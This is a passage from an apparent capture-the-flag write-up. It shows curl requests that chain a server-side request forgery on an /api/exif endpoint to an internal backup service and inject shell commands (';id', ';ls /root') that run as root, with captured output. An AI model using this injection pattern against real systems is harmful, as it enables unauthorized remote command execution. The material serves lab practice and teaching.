 <br>

```bash
:~/TheGreatEscape# curl 'http://xx.xxx.xx.xxx/api/exif?url=http://api-dev-backup:8080/exif?url=;id'
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               curl: no URL specified!
curl: try 'curl --help' or 'curl --manual' for more information
uid=0(root) gid=0(root) groups=0(root)
```

<br>
<p>

- dev-note.txt</p>

<br>

```bash
:~/TheGreatEscape# curl 'http://xx.xxx.xx.xxx/api/exif?url=http://api-dev-backup:8080/exif?url=;ls%20/root'
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               curl: no URL specified!
curl: try 'curl --help' or 'curl --manual' for more information
dev-note.txt
```

<br>
<p>

- .git<br>
- dev-note.txt</p>

<br>

```bash
:~/TheGreatEscape# curl 'http://xx.xxx.xx.xxx/api/exif?url=http://api-dev-backup:8080/exif?url=;ls%20-lah%20/root/'
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               curl: no URL specified!
curl: try 'curl --help' or 'curl --manual' for more information
total 28K
drwx------ 1 root root 4.0K Jan  7  2021 .
drwxr-xr-x 1 root root 4.0K Jan  7  2021 ..
lrwxrwxrwx 1 root root    9 Jan  6  2021 .bash_history -> /dev/null
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x 1 root root 4.0K Jan  7  2021 .git
-rw-r--r-- 1 root root   53 Jan  6  2021 .gitconfig
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-rw-r-- 1 root root  201 Jan  7  2021 dev-note.txt
```

